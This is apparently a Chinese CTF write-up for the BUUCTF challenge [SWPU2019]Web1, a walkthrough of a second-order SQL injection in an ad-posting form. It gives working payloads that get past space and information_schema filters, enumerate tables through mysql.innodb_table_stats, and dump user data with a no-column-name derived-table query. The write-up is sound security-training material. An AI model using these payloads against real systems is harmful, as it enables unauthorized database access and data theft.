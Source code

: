 # [SWPU2019]Web1

[题目地址](https://buuoj.cn/challenges#[SWPU2019]Web1)

开局一个登录框。自然是没测出来什么东西，老老实实注册一个用户，登录发现是一个广告发布平台。看到这个我就想到sql二次注入。从广告下手，找找漏洞点。当广告名为`'")}]`时，报错：

- You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '")}]' limit 0,1' at line 1

首要测试union select，看看有多少列什么的。

- ' union select 1,2,3#
    > 标题含有敏感词汇

不好有过滤。手动测试了一下，空格和#被过滤了。这俩都不是问题，空格用注释/**/绕，注释用另一个'闭合。这题不按套路出牌，平时我习惯直接1，2，3，4这样打，order by基本不用，因为一般都不会太多。这题打到10列的时候怀疑人生，遂用order by，然后被ban。行吧，上group by加二分法，上限50，最后得到有22行。

- 'union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'

回显在2和3。

现在就是爆数据了。问题在于重要的information_schema也被ban了。好的不懂了，看[wp](https://blog.csdn.net/shinygod/article/details/123681039)，发现这根本不是问题，甚至有两种方法绕：

```
mysql.innodb_table_stats
sys.schema_auto_increment_columns
```

开开心心构造payload。

- 'union/**/select/**/1,2,group_concat(table_name),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/from/**/mysql.innodb_table_stats/**/where/**/database_name="web1"'

这题比较奇怪，database_name必须是这种形式而不能是database()。不是大事，之前多花一步爆数据库名就好了。表有ads和users，现在终极问题来了，由于我们使用的不是information_schema，导致没发直接查列名，因为无论是mysql.innodb_table_stats还是sys.schema_auto_increment_columns，都没有记录列名。于是引入第二个技巧：[无列名注入](https://err0r.top/article/mardasctf/)。这个技巧可以让我们在不知道列名的情况下直接爆值。先看payload。

- -1'union/**/select/**/1, (select/**/group_concat(b)/**/from(select/**/1,2,3/**/as/**/b/**/union/**/select * from/**/users)x),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22 

这里我们选择2的位置回显爆出的内容，把2处的查询语句分解来看。`select/**/group_concat(b)/**/from`是一部分，`(select/**/1,2,3/**/as/**/b/**/union/**/select * from/**/users)x`是另一部分。第一部分的b来自于第二部分`select 1,2,3 as b`这一小部分给第三号列取了个别名b，而第二部分括号里的内容，叫派生表，完全是无列名差值的公式，刚刚给的文章内有详细说明。x是这个派生表的名字，随便取一个就行。或者我们这么看，`(select/**/1,2,3/**/as/**/b/**/union/**/select * from/**/users)x`从users中展开一个名为x的派生表，里面有列1，2，b（3的别名）。就把这个表看作正常表，该怎么select怎么select，于是有了`select/**/group_concat(b)/**/from`。